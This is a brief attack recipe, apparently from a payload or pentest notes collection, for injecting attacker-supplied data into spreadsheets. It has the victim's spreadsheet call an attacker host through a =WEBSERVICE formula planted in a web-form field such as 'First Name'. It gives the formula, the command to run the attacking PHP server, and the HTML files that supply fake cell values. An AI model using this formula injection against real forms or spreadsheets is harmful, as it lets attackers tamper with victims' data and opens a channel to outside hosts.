 Use Webservice Formula to Inject fake data into Speadsheet
----------------------------------------------------------
In cell "A1" enter the following - Could be "First Name" in web form
=WEBSERVICE("http://www.attacker.com")

Run attacking server 
php -S www.attacker.com:80

On attacking server create "index.html" with content you want to change the "fake data" too.
-Begin index.html
Fake Data
- End index.html

To fill in multiple cells use multiple html file
############ Begin a1.html ##################################
Fake
############ End a1.html ####################################
############ Begin a2.html ##################################
Data
############ End a2.html ####################################



